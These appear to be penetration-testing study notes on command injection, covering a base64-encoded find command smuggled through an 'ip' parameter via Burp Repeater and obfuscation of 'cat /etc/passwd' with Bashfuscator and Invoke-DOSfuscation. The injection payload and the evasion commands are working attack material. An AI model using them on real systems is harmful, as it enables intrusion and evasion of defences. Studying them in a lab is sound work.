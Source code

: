 ### QUESTION

```shell
echo -n 'find /usr/share/ | grep root | grep mysql | tail -n 1'| base64

ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=
```

burp repeater

```param
ip=127.0.0.1%0abash<<<$(base64${IFS}-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```

# Evasion Tools

## Linux (Bashfuscator)

https://github.com/Bashfuscator/Bashfuscator

```shell
git clone https://github.com/Bashfuscator/Bashfuscator
cd Bashfuscator
pip3 install setuptools==65
python3 setup.py install --user
```
Once we have the tool set up, we can start using it from the `./bashfuscator/bin/` directory.

```shell
 ./bashfuscator -c 'cat /etc/passwd'
[+] Mutators used: Token/ForCode -> Command/Reverse
[+] Payload:
 ${*/+27\[X\(} ...SNIP...  ${*~}   
[+] Payload size: 1664 characters
```

 this uses a random obfuscation technique but we can use flags to specify the result we want
```shell
./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
[+] Mutators used: Token/ForCode
[+] Payload:
eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"
[+] Payload size: 104 characters```


## Windows (DOSfuscation)

```powershell
git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
cd Invoke-DOSfuscation
Import-Module .\Invoke-DOSfuscation.psd1
Invoke-DOSfuscation
Invoke-DOSfuscation> help
```
